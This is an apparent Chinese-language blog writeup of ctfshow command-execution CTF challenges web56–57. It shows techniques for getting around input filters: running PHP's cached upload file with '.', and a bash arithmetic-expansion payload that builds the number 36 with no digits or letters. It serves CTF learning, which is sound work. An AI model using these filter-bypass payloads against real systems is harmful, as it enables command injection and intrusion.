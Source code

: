 ```yaml
---
title: "ctfshow Web入门[命令执行] web56-77 Writeup"
date: 2022-08-09T17:56:28+08:00
draft: false
author: "X1r0z"

tags: ['linux','php','ctf']
categories: ['Writeup']

hiddenFromHomePage: false
hiddenFromSearch: false

toc:
  enable: true
math:
  enable: false
lightgallery: false
---
```


剩下来的命令执行

有一些 open_basedir 和 disable_functions 的绕过



## web56

![](https://exp10it-1252109039.cos.ap-shanghai.myqcloud.com/img/202208091054225.png)

过滤了字母和数字

根据上一题, 只能使用 `.` 执行 PHP 的缓存文件

![](https://exp10it-1252109039.cos.ap-shanghai.myqcloud.com/img/202208091057063.png)

## web57

![](https://exp10it-1252109039.cos.ap-shanghai.myqcloud.com/img/202208091101848.png)

提示 flag 在 36.php 中

发现 `$` 没被过滤, 当时想的是类似 `$$` `$@` `$!` 的指令, 然后 `++` `--` 这样子, 本地测试发现都不好构造36

hint 如下

```bash
$((~$(($((~$(())))$((~$(())))$((~$(())))$((~$(())))$((~$(())))$((~$(())))$((~$(())))$((~$(())))$((~$(())))$((~$(())))$((~$(())))$((~$(())))$((~$(())))$((~$(())))$((~$(())))$((~$(())))$((~$(())))$((~$(())))$((~$(())))$((~$(())))$((~$(())))$((~$(())))$((~$(())))$((~$(())))$((~$(())))$((~$(())))$((~$(())))$((~$(())))$((~$(())))$((~$(())))$((~$(())))$((~$(())))$((~$(())))$((~$(())))$((~$(())))$((~$(())))$((~$(())))))))
${_} ="" //返回上一次命令
$((${_}))=0
$((~$((${_}))))=-1
```
